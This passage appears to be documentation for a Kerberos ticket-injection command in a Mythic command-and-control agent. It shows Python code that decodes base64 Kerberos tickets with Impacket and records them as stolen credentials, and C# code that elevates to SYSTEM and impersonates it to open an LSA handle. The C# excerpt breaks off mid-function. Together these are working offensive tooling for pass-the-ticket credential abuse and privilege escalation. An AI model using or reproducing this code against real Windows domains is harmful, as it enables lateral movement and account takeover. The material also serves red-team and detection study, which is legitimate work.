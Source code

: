 #### 2. Ticket Source Resolution (Python)
```python
current_group_name = taskData.args.get_parameter_group_name()
if current_group_name == "Use Existing Ticket":
    credentialData = taskData.args.get_arg("existingTicket")
    taskData.args.remove_arg("existingTicket")
    taskData.args.add_arg("base64ticket", credentialData["credential"], 
                         parameter_group_info=[ParameterGroupInfo(group_name=current_group_name)])
```
- Handles existing ticket selection from credential store
- Extracts credential data and converts to base64ticket parameter
- Maintains parameter group information for processing

#### 3. Ticket Parsing and Credential Creation
```python
base64Ticket = taskData.args.get_arg("base64ticket")
ccache = CCache()
ccache.fromKRBCRED(base64.b64decode(base64Ticket))

formattedComment = f"Service: {ccache.credentials[0].__getitem__('server').prettyPrint().decode('utf-8')}\n"
formattedComment += f"Start: {datetime.fromtimestamp(ccache.credentials[0].__getitem__('time')['starttime']).isoformat()}\n"
formattedComment += f"End: {datetime.fromtimestamp(ccache.credentials[0].__getitem__('time')['endtime']).isoformat()}\n"
formattedComment += f"Renew: {datetime.fromtimestamp(ccache.credentials[0].__getitem__('time')['renew_till']).isoformat()}\n"

if current_group_name == "Add New Ticket":
    resp = await SendMythicRPCCredentialCreate(MythicRPCCredentialCreateMessage(
        TaskID=taskData.Task.ID,
        Credentials=[
            MythicRPCCredentialData(
                credential_type="ticket",
                credential=taskData.args.get_arg("base64ticket"),
                account=ccache.credentials[0].__getitem__("client").prettyPrint().decode('utf-8'),
                realm=ccache.credentials[0].__getitem__("client").prettyPrint().decode('utf-8').split("@")[1],
                comment=formattedComment,
            )
        ]
    ))
```
- Uses Impacket CCache to parse Kerberos ticket structure
- Extracts client, server, and timing information
- Creates credential entry in Mythic for new tickets
- Formats detailed comment with ticket metadata

#### 4. LSA Connection and Package Resolution (C#)
```csharp
// From KerberosHelpers.cs
private static HANDLE GetLsaHandleUntrusted(bool elevateToSystem = true)
{
    HANDLE lsaHandle = new();
    if(Agent.GetIdentityManager().GetIntegrityLevel() is IntegrityLevel.HighIntegrity && elevateToSystem)
    {
        (elevated, _systemHandle) = Agent.GetIdentityManager().GetSystem();
        createdArtifacts.Add(Artifact.PrivilegeEscalation("SYSTEM"));
        
        if (elevated)
        {
            var originalUser = WindowsIdentity.Impersonate(_systemHandle);
            WindowsAPI.LsaConnectUntrustedDelegate(out lsaHandle);
```